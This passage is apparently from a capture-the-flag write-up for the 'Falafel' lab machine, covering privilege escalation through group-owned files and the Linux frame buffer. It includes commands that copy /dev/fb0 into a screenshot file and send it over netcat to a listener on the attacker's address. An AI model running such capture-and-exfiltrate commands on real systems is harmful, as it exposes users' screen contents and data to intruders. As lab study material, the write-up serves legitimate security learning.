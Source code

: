 ```bash
for group in $(groups); do echo -e "\n[+] Filesystems with $group assigned:\n"; find \-group $group 2>/dev/null; done
```

<br/>
<img src="{{ site.img_path }}/falafel_writeup/Falafel_85.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/falafel_writeup/Falafel_86.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/falafel_writeup/Falafel_87.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/falafel_writeup/Falafel_88.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/falafel_writeup/Falafel_89.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/falafel_writeup/Falafel_90.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

If I have access to the **Screen's Frame Buffer** I can take a screenshot and transfer it to my attacking machine to open it with some tool and see if it has any relevant information. After transferring it, I check with `md5sum` the integrity of the file, as I am working in a virtual machine I don't have many tools installed so I will have to install **Gimp** to be able to analyze the file. There is a problem with the visibility of the capture because **I don't have the precise dimensions** of it.

> **[The Frame Buffer Device](https://www.kernel.org/doc/html/latest/fb/framebuffer.html){:target="_blank"}**: The frame buffer device provides an abstraction for the graphics hardware. It represents the frame buffer of some video hardware and allows application software to access the graphics hardware through a well-defined interface, so the software doesn’t need to know anything about the low-level (**hardware register**) stuff. The device is accessed through special device nodes, usually located in the **/dev** directory, i.e. **/dev/fb***.

> **Victime Machine**:

```bash
cd /dev/shm
cp /dev/fb0 screenshot
file screenshot
du -hc screenshot
```

> **Attacker Machine**:

```bash
nc -nlvp 443 > screenshot
```

> **Victime Machine**:

```bash
md5sum screenshot
du -hc screenshot

nc 10.10.14.238 443 < screenshot
```
